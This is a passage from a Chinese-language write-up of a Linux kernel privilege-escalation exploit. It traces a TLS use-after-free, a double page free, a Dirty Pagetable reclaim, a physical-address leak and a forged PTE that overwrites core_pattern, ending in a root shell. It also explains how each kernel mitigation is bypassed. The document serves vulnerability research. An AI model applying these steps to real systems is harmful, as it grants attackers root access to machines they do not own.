         reader 仍阻塞在 tcp_recvmsg_locked
```

T0/T1 阶段，`splice` 经 `tcp_sendpage` 分配 `A`、`get_page(P1)`、`skb_clone` 得到 `A_clone`。`A` 与 `A_clone` 共享 `H` 与 `P1`，两者各持 `fclone_ref` 一份：

```
sk_buff_fclones (skbuff_fclone_cache)
 ├─ skb1 = A          [fclone: ORIG]
 │   └─ head ─► H    [kmalloc-1k]
 │        ├─ dataref               [0 ─► 2]
 │        └─ frags[0].bv_page ─► P1
 ├─ skb2 = A_clone    [fclone: CLONE]
 │   └─ head ─► H
 └─ fclone_ref                     [0 ─► 2]

P1.refcount                        [1 ─► 2]
 ├─ pipe_buffer.page
 └─ H.frags[0]
```

dummy 写入阶段，32 个 1 字节 write 在各自 dummy_serv 的接收队列上各产生一个 `B_head`。这些 `B_head` 与 `H` 同属 `kmalloc-1k`，但位于不同的 socket 队列，不共享任何 `skb_shared_info`，也不参与 `A` / `A_clone` / `P1` 的生命周期：

```
dummy_serv[i].sk_receive_queue = [B_head[i]]   (i in [0, 32))
B_head[i] 位于 kmalloc-1k；每个 B_head 独占一个 skb head
```

T1.5 阶段，ACK 到达 client，`tcp_ack` 释放 `A`。`skb_release_data(A)` 在 `dataref == 1` 处短路，frags 循环不运行，`P1` 与 `H` 都不动，`fclone_ref` 从 2 降到 1：

```
sk_buff_fclones
 ├─ skb1 = A          [已释放]
 ├─ skb2 = A_clone
 │   └─ head ─► H
 └─ fclone_ref                     [2 ─► 1]

H.dataref                          [2 ─► 1]   (短路)
P1.refcount                        [2]         (不变)
```

T2 阶段，数据到达 conn，`tls_strp_load_anchor_with_queue` 把接收队列首 skb 存入 `anchor->shinfo->frag_list`。此时接收队列首是 `A_clone`——`A` 已在 T1.5 释放：

```
conn.sk_receive_queue = [A_clone]

anchor.shinfo.frag_list ──► A_clone     [NULL ─► A_clone]
H.dataref                               [1]
P1.refcount                             [2]
```

T3 阶段，主线程首次 `recv` conn。`tcp_inq=768 >= full_len=40`，刷新执行，`anchor->frag_list` 被再次写入同一个 `A_clone`。`tls_do_decryption` 走同步路径，`darg->async` 为假，AEAD 在此同步完成并返回 0，`tls_decrypt_sg` 不进入 `tls_strp_msg_hold` 分支；随后 `copy_to_user(ro_map)` 因 `ro_map` 为 `PROT_READ` 而失败，`tls_rx_one_record` 返回 `-EFAULT`，`tls_sw_recvmsg` 在返回值之后调用 `tls_err_abort(sk, -EBADMSG)`（硬编码参数），触发 wake #2：

```
anchor.shinfo.frag_list ──► A_clone     (刷新，同一对象)
H.dataref                               [1]
P1.refcount                             [2]
conn.sk_err                            = -EBADMSG
```

T4 阶段，reader 被 wake #2 唤醒，`tcp_eat_recv_skb` 摘除 `A_clone` 并释放。`skb_attempt_defer_free` 因 `alloc_cpu == 当前 CPU == 0` 走 `nodefer` 分支同步释放，`skb_release_data(A_clone)` 进入 frags 循环，`put_page(P1)` 2→1，`kfree(H)` 第 1 次，`fclone_ref` 1→0：

```
conn.sk_receive_queue = [empty]

H.dataref                          [1 ─► 0]   (进入 frags 循环)
  put_page(P1)                     [2 ─► 1]
  kfree(H)                         [第 1 次]
  H 落在 CPU 0 kmalloc-1k freelist 顶部
fclone_ref                         [1 ─► 0]
  fclones_A 整体释放
anchor.shinfo.frag_list ──► (悬垂)

dummy_serv[i].sk_receive_queue = [B_head[i]]   (不变)
```

阶段 5 结束时，`A_clone` 已释放、`H` 已第一次 `kfree` 并落在 CPU 0 freelist 顶部、`P1->refcount` 从 2 降到 1（仅 `pipe_buffer` 持有）、`anchor->frag_list` 悬垂、32 个 `B_head` 仍留在各自的 dummy_serv 接收队列中。T3 的 AEAD 走同步路径，本阶段不产生 `async_hold` 里的 `n`——`async_hold` 为空。这些状态是阶段 6 触发 T4.5 与 T5 的前提。

### 3-8. 阶段 6：触发双重 put_page

阶段 6 覆盖 T4.5 到 T5 purge。主进程先在 T4.5 完成两步作用于不同对象的操作——drain 一组 dummy `B_head`（作用于 `kmalloc-1k` 的 per-CPU freelist）与 recycle `P1`（作用于 pipe 的 `tmp_page`）——再进入 T5 触发 `P1` 的第二次 `put_page`。两步都在 T5 之前完成，互不依赖，顺序不影响结果。

所有相关操作都在 CPU 0 上：`H` 由 client 在 CPU 0 分配（`alloc_cpu = 0`）；reader 继承父进程 CPU 0 亲和性，T4 的 `skb_attempt_defer_free` 走 `nodefer` 分支同步释放；T5 的 `kfree(H)` 也由 main 在 CPU 0 执行。两次 `kfree(H)` 都落在 CPU 0 的 `kmalloc-1k` per-CPU freelist 上。

dummy `B_head` drain 同时承担两个职责——**规避 `BUG_ON(object == fp)`**：T4 后 `H` 位于 CPU 0 freelist 顶部，若第二次 `kfree(H)` 时 `H` 仍在顶部，`set_freepointer()` 的 `BUG_ON(object == fp)` 会触发；drain 32 个 `B_head` 把 `H` 推到第 33 位后，第二次 `kfree(H)` 时 `H` 不在顶部，`BUG_ON` 不触发。**屏蔽 `H->shinfo`**：T4 到 T5 之间若任何 CPU 0 内核路径从 `kmalloc-1k` 分配，SLUB 的 LIFO 会把 `H` 返回给调用者并覆盖 `H->shinfo`（包括 `frags[0]` 即 `P1`）；drain 把 `H` 推到非顶部后，后续分配拿到的是 `B_head` 而非 `H`，`H->shinfo` 得以保留到 T5。两个职责由同一组 drain 完成，不可分割。

recycle 把 `P1` 的引用从 `pipe_buffer` 转移到 `pipe->tmp_page`：`anon_pipe_buf_release` 看到 `page_count == 1`，不调用 `put_page`，而是把 `P1` 缓存到 `pipe->tmp_page`，`_refcount` 保持 1。这一步是阶段 7 `pipe_write` 复用 `P1` 的前提。



drain 32 个 `B_head` 后，CPU 0 的 `kmalloc-1k` freelist 从 `[H, B_head_31, ..., B_head_0]` 变为 `[B_head_31, ..., B_head_0, H, ...]`——`H` 被推到位置 33，任何后续 CPU 0 的 `kmalloc-1k` 分配拿到的是 `B_head` 而非 `H`：

```
drain 前 CPU 0 freelist:  [H, B_head_31, ..., B_head_0, ...]
drain 后 CPU 0 freelist:  [B_head_31, ..., B_head_0, H, ...]
                          ↑ 位置 33
```

recycle 之后，`P1` 的状态从“仅 `pipe_buffer` 持有”变成“`pipe->tmp_page` 承载转移来的引用”：

```
T4 结束:  pipe->bufs[<idx>].page  ─► P1,  P1.refcount = 1
T4.5 recycle 后:
          pipe->tmp_page          ─► P1,  P1.refcount = 1
          pipe->bufs[<idx>].page  已释放
          anon_pipe_buf_release 未 put_page，引用经 tmp_page 保留
```

T5 阶段，主线程二次 `recv` conn。`tcp_inq=0 < full_len=40`，`tls_strp_msg_load` 在 `WARN_ON` 处早退，anchor 不刷新。`tls_decrypt_sg` 内 `skb_nsg` 与 `skb_to_sgvec` 遍历悬垂 `frag_list`，触发 UAF 读；`tls_do_decryption` 把请求提交到 cryptd，`darg->async = true`，`tls_decrypt_sg` 进入 `tls_strp_msg_hold` 分支——它遍历悬垂 `frag_list`，对 `A_clone` 执行 `skb_clone` 得到 `n`：

```
anchor.shinfo.frag_list ──► A_clone       (仍悬垂)

n (skbuff_head_cache, fclone=UNAVAILABLE)
 ├─ head ─► H                             (UAF 读)
 └─ shinfo->frags[0] ─► P1                (UAF 读)

H.dataref                          [0 ─► 1]   (假引用)
async_hold                         ─► n
P1.refcount                        [1]
```

T5 的 AEAD 走异步路径：`tls_do_decryption` 返回后，主线程不会在 `tls_decrypt_sg` 里看到 `-EBADMSG`；cryptd workqueue 上的工作线程完成 AEAD 解密后失败，`tls_decrypt_done` 在 workqueue 上下文被回调，收到 `err=-EBADMSG`，调 `tls_err_abort(sk, err)`（此处 `err == arg == -EBADMSG`），并置 `ctx->async_wait.err = -EBADMSG`。主线程 `recv_end` 处等 `tls_decrypt_async_wait` 返回该错误，再执行 `__skb_queue_purge` 释放 `n`。`skb_release_data(n)` 进入 frags 循环，`put_page(P1)` 1→0（无主释放），`kfree(H)` 第 2 次：

```
H.dataref                          [1 ─► 0]
  put_page(P1)                     [1 ─► 0]   (无主释放)
  kfree(H)                         [第 2 次]
    H 仍在 CPU 0 freelist 第 33 位，不在顶部，BUG_ON 不触发
kfree_skbmem(n)                    [skbuff_head_cache, 直接释放]

P1.refcount                        [0]
buddy freelist                     ─► P1       (入队)
pipe->tmp_page                     ─► P1       (仍指向)
```

阶段 6 结束时，`P1->_refcount = 0`，`P1` 归还 buddy freelist，`pipe->tmp_page` 仍指向 `P1`，Dirty Pagetable 的物理页级入口形成。`H` 已第二次 `kfree`，`H->shinfo` 被 dummy `B_head` 保护保留到 T5 purge。T5 的 AEAD 走异步路径，`tls_err_abort` 由 `tls_decrypt_done` 在 cryptd workqueue 上下文调用，`tls_strp_msg_hold → skb_clone(A_clone) → n` 也在 async 分支内被调用——这与 T3 的同步路径不同。

### 3-9. 阶段 7：回收 P1 并喷射 PTE 表

阶段 7 把 `P1` 从 buddy freelist 取回到 pipe buffer，再让 PTE 页表分配器取回 `P1`。两步的顺序不能颠倒：先写 pipe 使 `P1` 重新被 pipe buffer 引用，再触 VMA 使 PTE 页表分配器从 buddy freelist 取页。这样设计的原因在于 `pipe->tmp_page` 与 buddy allocator 的“双视角”——buddy allocator 认为 `P1` 是空闲页，`pipe->tmp_page` 认为它属于自己；写 pipe 复用 `tmp_page` 时 `get_page` 只递增 `_refcount`，**不把 `P1` 从 buddy freelist 上摘除**，于是 `P1` 同时被 buddy 与 pipe 引用，任何一方的后续操作都以 `P1` 为对象。



写 pipe 之后，`P1` 在 pipe buffer 与 buddy freelist 上各有一次引用：

```
write(data_pipe, RECLAIM_SIZE)
    pipe_write ─► 复用 tmp_page
    pipe_buffer.page             ─► P1
    get_page(P1)                    [0 ─► 1]

P1.refcount                        [1]
buddy freelist                     ─► P1    (仍视为空闲)
```

触 VMA 之后，`P1` 大概率被 PTE 页表分配器取回。取回后 `P1` 的内容变成 PTE 表，`PTE[0]` 指向 `empty_zero_page` 的物理地址：

```
for i in [0, NR_SPRAY):
    *(volatile char*)VA[i]
        └─ alloc_pages(GFP_PGTABLE_USER)
        └─ 可能取到 P1

P1 (若被取到)                      [PTE 表页]
  PTE[0]                        ─► empty_zero_page 物理地址
```

阶段 7 结束时，`P1` 从物理页变成页表页，pipe 与 PTE 页表指向同一块物理内存——Dirty Pagetable 的成型。

### 3-10. 阶段 8：泄漏 PTE 并推导内核基址

阶段 8 从 pipe 读 `P1` 的内容，即 PTE 页表。第一个 8 字节是 `PTE[0]`，其物理地址位指向 `empty_zero_page`。用 `PTE[0]` 的物理地址减去链接时固定的偏移，得到 `kernel_base_phys`。这样设计的原因在于 KASLR 的随机化只作用于虚拟地址：`empty_zero_page` 与 `core_pattern` 在物理地址空间中的相对偏移是链接时固定的，与虚拟地址无关。



读出 `P1` 的内容后，验证 `PTE[0]` 的标志位并推导基址：

```
读出的 P1 内容                     PTE[0] = 0x800000001b9bf225
  present                         [bit 0 = 1]
  user                            [bit 2 = 1]
  NX                              [bit 63 = 1]
  dirty / soft-dirty              [bit 6 = 0, bit 11 = 0]

empty_zero_phys                 = PTE[0] & PTE_PHYS_MASK
                                = 0x1b9bf000
kbase_raw                       = empty_zero_phys - 固定偏移
                                = 0x19200000
kbase                           = kbase_raw & 2MB_ALIGN
                                = 0x19200000
```

阶段 8 结束时，`kernel_base_phys` 已得到，后续阶段可据此计算任意内核符号的物理地址。

### 3-11. 阶段 9：伪造 PTE 并写入 pipe

阶段 9 把 `PTE[0]` 从指向 `empty_zero_page` 改写为指向 `core_pattern` 物理页。伪造 PTE 的标志位设 `present | rw | user | accessed | dirty`，目的是让用户态能以写权限访问 `core_pattern` 物理页——`present` 与 `user` 是 `mprotect` 与用户态访问所需，`rw` 是写入所需，`accessed` 与 `dirty` 让内核把这次访问当作正常的用户态写入，不触发额外的 COW 或保护检查。



构造出的 `forged_pte` 与写 pipe 后的效果：

```
core_pattern_phys               = 0x19200000 + 0x26b2c0
                                = 0x1b46b2c0
forged_pte                      = (core_pattern_phys & PTE_PHYS_MASK) | FLAGS
                                = 0x1b46b867

write(data_pipe, forged_pte, 8)
  P1.PTE[0]                        [0x1b9bf225 ─► 0x1b46b867]
  某 VMA 的 PTE[0]                 ─► core_pattern 物理页
  其余 VMA 的 PTE[0]               ─► empty_zero_page (不变)
```

阶段 9 结束时，`PTE[0]` 已指向 `core_pattern` 物理页。由于 `NR_SPRAY` 个 VMA 中只有一个是 `P1` 作为 PTE 表的 VMA，其余 VMA 的 `PTE[0]` 仍指向 `empty_zero_page`——这是阶段 10 的遍历基础。

### 3-12. 阶段 10：改写并验证 core_pattern

阶段 10 遍历全部 VMA，对每个 VMA 在 `core_pattern` 的页内偏移处执行 `strcpy`，再调 `flush_tlb` 刷新 TLB。这样设计的原因在于无法提前识别哪个 VMA 对应 `P1`：`P1` 被 PTE 页表分配器取回时，对应的 VMA 是在 `NR_SPRAY` 个候选位置中由 buddy freelist 的 LIFO 顺序决定的，用户态没有直接观测手段。遍历全部 VMA 是把“无法识别”转化为“逐个尝试”——只有 `PTE[0]` 是 `forged_pte` 的 VMA 会真正写入 `core_pattern` 物理页，其余 VMA 触发 COW，映射到新分配的匿名页，不影响 `core_pattern`。



遍历 VMA 的写入效果分两类：

```
for i in [0, NR_SPRAY):
    strcpy(VA[i] + 偏移, "|/proc/%P/exe")
    mprotect(VA[i], VMA_SIZE)        [TLB 刷新]

  若 VA[i].PTE[0] == forged_pte
    写入落到 core_pattern 物理页       [命中，1 个 VMA]
  否则
    写入触发 COW                       [其余 NR_SPRAY-1 个 VMA]
    映射到新分配的匿名页，无害
```

`mprotect` 的作用需要单独说明：它遍历 VMA 的 PTE 表并按新权限修改每个 PTE 的权限位。对 `forged_pte` 而言，`mprotect(PROT_READ)` 清掉 `rw` 位，`mprotect(PROT_READ | PROT_WRITE)` 把 `rw` 位设回——`forged_pte` 的**物理地址位保持不变**，`PTE[0]` 始终指向 `core_pattern` 物理页。`mprotect` 在这里的语义是 TLB 刷新，不是权限修改。

阶段 10 结束时，`core_pattern` 被改写为一段命令字符串，其内容指向 `/proc/%P/exe`——内核在崩溃时会以 root 权限执行该路径指向的程序。

### 3-13. 阶段 11：触发 watcher 崩溃

阶段 11 通过 watcher IPC 管道通知 watcher 执行崩溃。watcher 收到指令后回应 ACK，然后解引用空指针触发内核崩溃。这样设计的原因在于 `core_pattern` 的改写只在崩溃发生时才被内核读取——`core_pattern` 是一个普通字符串，改写它不触发任何动作；只有 `do_coredump` 读它时，`|/proc/%P/exe` 才会被解释为管道语法，`call_usermodehelper` 才会以 root 权限执行对应路径。



ACK 到达 main 后，main 知道 watcher 即将崩溃，但 main 保持休眠——stdin/stdout/stderr 由 crash 进程持有，main 不主动关闭它们，为阶段 12 的 `pidfd_getfd` 保留目标：

```
main ─► ipc_send(IPC_CMD_CRASH)
watcher ─► ipc_send(IPC_CMD_ACK)
watcher ─► *(volatile size_t *)0 = 0
           内核 do_coredump
             core_pattern = "|/proc/%P/exe"
             call_usermodehelper("/proc/<pid>/exe", ...)
             辅助程序 [以 root 权限运行]
main ─► while(1) sleep(1000)         (保持 fd 不关闭)
```

阶段 11 结束时，内核已以 root 权限启动辅助程序。辅助程序随后进入阶段 12。

### 3-14. 阶段 12：root shell

阶段 12 由内核在 root 权限下启动辅助程序，辅助程序通过 `getuid() == 0` 判断自己是 root 重入，随后使用 `pidfd_open` 与 `pidfd_getfd` 窃取崩溃进程的 stdio，`execve("/bin/sh")` 进入 root shell。这样设计的原因是 `core_pattern` 的 `%P` 展开为崩溃进程的 pid，辅助程序可以据此定位崩溃进程的 stdio——`pidfd_getfd` 是辅助程序从崩溃进程继承 stdio 的可靠手段，不依赖继承 fd 或关闭顺序。



辅助程序重入 `main` 后按 `getuid()` 分流，窃取 stdio 后进入 shell：

```
new_process
  getuid() == 0                     [成立]
  pidfd_open(parent_pid)         ─► pfd
  pidfd_getfd(pfd, 0, 1, 2)      ─► stdin / stdout / stderr
  dup2(stdin, 0); dup2(stdout, 1); dup2(stderr, 2)
  execve("/bin/sh", "-i")
```

阶段 12 结束时，本方案进入 root shell，从普通用户权限升级到 root。

### 3-15. 保护机制应对策略

本方案对内核常见防护机制逐项处理，不依赖地址预测，不把用户态代码放进内核执行，不通过伪造的内核函数指针改变控制流。

- **KASLR**：随机化只作用于虚拟地址，物理地址不受影响。本方案从 `PTE[0]` 泄漏的 `empty_zero_page` 物理地址出发，减去链接时固定的偏移得到 `kernel_base_phys`，再得到 `core_pattern_phys`。整条链只使用物理地址，KASLR 对虚拟地址的随机化不影响后续步骤。

- **SMEP**：本方案不把用户态代码放进内核执行，也不修改内核控制流；高权限 shell 由 `do_coredump()` 按 `core_pattern` 派生辅助程序后由辅助程序 `execve("/bin/sh", "-i")` 启动，`/bin/sh` 始终运行在用户态。SMEP 不构成约束。

- **SMAP**：本方案对 `core_pattern` 物理页的写入由用户态通过自己的 VMA 完成——`PTE[0]` 被伪造为 `present | rw | user`，用户态访问 VMA 时走用户页表，不经过内核态对用户指针的解引用。方案中的 `recv(conn, ro_map)`、`read(data_pipe, scratch)` 等 usercopy 路径都在用户态缓冲区的合法范围内，不涉及越界或伪造指针，SMAP 对合法 usercopy 不构成约束。

- **KPTI**：本方案全程通过合法系统调用完成状态迁移，内核与用户态之间只通过 `recv()`、`write()`、`connect()`、`splice()`、`mmap()`、`mprotect()` 等标准接口交互；伪造 `PTE[0]` 位于用户态 VMA 对应的 PTE 页表页中，用户态访问自己的 VMA 时使用的是用户页表，不依赖用户态直接访问内核虚拟地址空间。

- **`CONFIG_MEMCG` / `CONFIG_MEMCG_KMEM`**：本方案依赖 `kmalloc-1k` 层上 `H` 的分配与释放顺序——`H` 从 `kmalloc_reserve` 的通用 `kmalloc-1k` 路径分配，不经过 cgroup 标记的专用路径；`skbuff_fclone_cache` 与 `skbuff_head_cache` 只承载 `sk_buff` 结构体自身，不承载 `H` 的内存块。cgroup 缓存隔离对 `H` 的分配路径不构成影响。

- **`CONFIG_SLAB_FREELIST_RANDOM`**：该配置打乱的是 slab 内对象的**初始排列**；`kmalloc-1k` 的 per-CPU freelist 在运行时仍按 LIFO 操作。本方案在阶段 6 的 dummy `B_head` 推入与推出依赖的正是运行时 LIFO 行为——`B_head` 释放到 CPU 0 freelist 顶部，`H` 被推到非顶部；这一行为不受初始排列影响。方案不依赖“`H` 在第几次分配被取到”这类初始排列相关的预测。

- **`CONFIG_SLAB_FREELIST_HARDENED`**：本方案用 dummy `B_head` drain 同时规避两个相关风险，所有操作都在 CPU 0 上完成。**规避 `BUG_ON(object == fp)`**——T4 后 `H` 位于 CPU 0 freelist 顶部；在 CPU 0 上 free 32 个 `B_head` 把 `H` 推到第 33 位后，T5 第二次 `kfree(H)` 时 `H` 不在 freelist 顶部，`set_freepointer()` 的 `BUG_ON(object == fp)` 不触发。**屏蔽 `H->shinfo`**——T4 到 T5 之间若任何 CPU 0 内核路径从 `kmalloc-1k` 分配，SLUB 的 LIFO 会把 `H` 返回给调用者并覆盖 `H->shinfo`（包括 `frags[0] = P1`）；drain 把 `H` 推到非顶部后，后续分配拿到的是 `B_head` 而非 `H`，`H->shinfo` 得以保留到 T5。两个职责由同一组 